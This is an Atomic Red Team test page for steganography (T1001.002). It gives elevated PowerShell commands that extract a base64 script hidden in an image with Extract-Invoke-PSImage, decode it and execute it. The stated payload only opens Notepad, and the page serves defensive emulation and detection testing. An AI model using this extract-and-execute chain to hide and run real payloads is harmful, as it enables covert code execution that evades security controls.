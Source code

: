 


<br/>
<br/>

## Atomic Test #2 - Embedded Script in Image Execution via Extract-Invoke-PSImage
This atomic test demonstrates the technique of data obfuscation via steganography, where a PowerShell script is concealed within an image file. 
The PowerShell script is embedded using steganography techniques, making it undetectable by traditional security measures. The script is hidden 
within the pixels of the image, enabling attackers to covertly transfer and execute malicious code across systems.

The test begins by ensuring the availability of the malicious image file and the Extract-Invoke-PSImage script. The test proceeds to extract the hidden 
PowerShell script (decoded.ps1) from the image file using the Extract-Invoke-PSImage tool. The extracted script is then decoded from base64 encoding and saved as a 
separate PowerShell (textExtraction.ps1). Consequently, the textExtraction.ps1 script is executed.

In the case of this atomic test, the malicious image file which is downloaded has the powershell command Start-Process notepad embedded within in base64. This
is done to emulate an attackers behaviour in the case they were to execute malware embedded within the image file.

**Supported Platforms:** Windows


**auto_generated_guid:** 04bb8e3d-1670-46ab-a3f1-5cee64da29b6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| image_file | Malicious Image file which will be downloaded | path | PathToAtomicsFolder&#92;T1001.002&#92;bin&#92;evil_kitten.jpg|
| psimage_script | Extract-Invoke-PSImage Script downloaded | path | PathToAtomicsFolder&#92;ExternalPayloads&#92;Extract-Invoke-PSImage.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cd "PathToAtomicsFolder\ExternalPayloads\"
Import-Module .\Extract-Invoke-PSImage.ps1
$extractedScript=Extract-Invoke-PSImage -Image "#{image_file}" -Out "$HOME\result.ps1"
$scriptContent = Get-Content "$HOME\result.ps1" -Raw
$base64Pattern = "(?<=^|[^A-Za-z0-9+/])(?:[A-Za-z0-9+/]{4})*(?:[A-Za-z0-9+/]{2}(==)?|[A-Za-z0-9+/]{3}=)?(?=$|[^A-Za-z0-9+/])"
$base64Strings = [regex]::Matches($scriptContent, $base64Pattern) | ForEach-Object { $_.Value }
$base64Strings | Set-Content "$HOME\decoded.ps1"
$decodedContent = Get-Content "$HOME\decoded.ps1" -Raw
$decodedText = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($decodedContent))
$textPattern = '^.+'  
$textMatches = [regex]::Matches($decodedText, $textPattern) | ForEach-Object { $_.Value }
$scriptPath = "$HOME\textExtraction.ps1"
$textMatches -join '' | Set-Content -Path $scriptPath
. "$HOME\textExtraction.ps1"
```

